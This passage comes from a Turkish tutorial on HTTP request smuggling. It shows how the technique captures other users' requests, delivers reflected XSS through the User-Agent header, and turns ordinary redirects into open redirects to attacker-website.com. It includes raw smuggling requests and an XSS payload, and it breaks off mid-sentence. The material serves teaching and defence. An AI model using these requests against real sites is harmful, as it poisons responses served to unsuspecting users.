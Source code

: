 Bu şekilde kullanıcının bazı hassas bilgilerine ulaşabilirsiniz. Fakat şöyle bir kısıtlama var, kaçak istek tipine göre (bizim durumumuzda url-encoded), parametre ayırıcısına kadar gösterim gerçekleşir (bizim durumumuzda bu ayırıcı &).

### Reflected XSS Açığını Kullanma

Eğer bir sistemde hem HTTP Request Smuggling hem de Reflected XSS açığı varsa; uygulamanın diğer kullancılarını etkilemek için bir istek kaçakçılığı saldırısı kullanabiliriz. Reflected XSS'i HTTP Request Smuggling'le kullanmanın, sadece Reflected XSS kullanmaya karşı iki üstünlüğü vardır; birincisi, kurban avlamanız gerekmez. Siz sadece XSS payloadını sisteme gönderir ve başka bir kullanıcının sunucuya istek atıp, saldırınızdan etkilenmesini beklersiniz. İkincisi, HTTP istek başlıkları gibi normal bir Reflected XSS saldırısında, isteğe bağlı olarak kontrol edilemeyen bölümlerde XSS davranışından yararlanmak için kullanılabilir.

Örneğin; bir uygulamanın User-Agent başlığının Reflected XSS'e karşı zaaflı olduğunu düşünelim. Aşağıdaki  istekle, bir sonraki kullanıcının ekranına "1" yazısını alert şeklinde yansıtabiliriz.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Length: 63
          Transfer-Encoding: chunked

          0

          GET / HTTP/1.1
          User-Agent: <script>alert(1)</script>
          Foo: X


### Normal Bir Yönlendirmeyi Open Redirect Olarak Kullanmak

Bir çok web uygulaması yönlendirme işlemini kullanır. Hatta bazı uygulamalar için vazgeçilmezlerdir. Normal bir şekilde uygulamanın /home dizinine erişmek istediğini belirten bir istek ve aldığı normal yanıtı görüyorsunuz.

          GET /home HTTP/1.1
          Host: normal-website.com

          HTTP/1.1 301 Moved Permanently
          Location: https://normal-website.com/home/

Kişi GET metodu ile normal-website sitesinin /home dizinine erişmek istediğini belirtmiş. Yanıt olarak da 301 yönlendirme kodunu alarak, istediği yer, kişiye gönderilmiş. Hadi burada da zaafiyet tespiti yapalım.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Length: 54
          Transfer-Encoding: chunked

          0

          GET /home HTTP/1.1
          Host: attacker-website.com
          Foo: X

Kaçak istek, attacker-websitesi'ne yönlendirme içerir. Bu yönlendirmeden bir sonraki kullanıcı etkilenecektir. Örneğin;
